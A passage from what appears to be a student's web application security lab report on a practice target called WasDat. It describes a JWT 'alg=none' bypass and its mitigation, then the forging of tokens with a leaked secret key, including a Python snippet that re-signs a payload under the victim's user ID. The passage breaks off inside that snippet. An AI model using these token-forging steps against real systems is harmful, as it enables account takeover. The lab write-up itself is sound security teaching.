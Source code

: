    - Use this token (add Authorization in header) to change victim's password by calling API PUT `/api/user` (the token will be considered as a verified token of victim)

     ![Screen Shot 2565-01-26 at 00.26.38](/Users/boyplus/Desktop/CS/JAMK/Web-App-Security/Week2/Screen Shot 2565-01-26 at 00.26.38.png)

     From the above image, we can use that JWT to change the password of victim.

   **Impact estimation:** Hihg severity. Attacker can perform the above instrcutions to login as an any user that they have an ID. Especially in this system, ID are running number (1,2,3,...). So attacker can brute force to login to login all user, modify their detail, password, etc.

   **Mitigation:**

   - Disable alg = None in the login system. So the token with algorithms of None will not be verified. In general, many libraries already consider JWT with none algorithm as an invalid token. Reference https://medium.com/@palivela.chaitu/jwt-json-web-tokens-best-practices-with-node-js-e45d1bdfc12d in Common Attacks & Pitfalls section.

4. [Issue report] **TARGET => WasDat:** Exploiting leaked JWT secret (3,5 points)

   **Title:** Anonymous user can sign JWT to login as another user since they have secret key.

   **Description:** Since the JWT secret key is exposed, attacker can use that key to sign their JWT. Which means they can edit the payload to be another user, then encode that data to be JWT and use it to login as any user that they have user ID.

   **Step to produce:**

   - Use jwt library of python3 to decode the JWT
     - Decoded result of wasdat-victim's JWT

     ```json
     {'iat': 1642373494, 'nbf': 1642373494, 'jti': 'd7f03590-ab80-4038-b2c9-0d8295f9fee4', 'exp': 88042373494, 'identity': 1, 'fresh': True, 'type': 'access'}
     ```

     - Decoded result of attacker's JWT

     ```json
     {'iat': 1643144436, 'nbf': 1643144436, 'jti': '7442449c-ef78-414e-9a70-094ebc2844c4', 'exp': 88043144436, 'identity': 2, 'fresh': False, 'type': 'access'}
     ```

     `identity` field holds user id

   - Use jwt library in python to encode data that we edit identity field to be 1 (victim id) and add property 'was': true

     ```python
     import jwt
     key = "secret-key"
     payload_data = {
     	'iat': 1643144436,
     	'nbf': 1643144436,
     	'jti': '7442449c-ef78-414e-9a70-094ebc2844c4', 
     	'exp': 88043144436,
     	'identity': 1, 
     	'fresh': False, 
     	'type': 'access',
     	'was': True
     }
     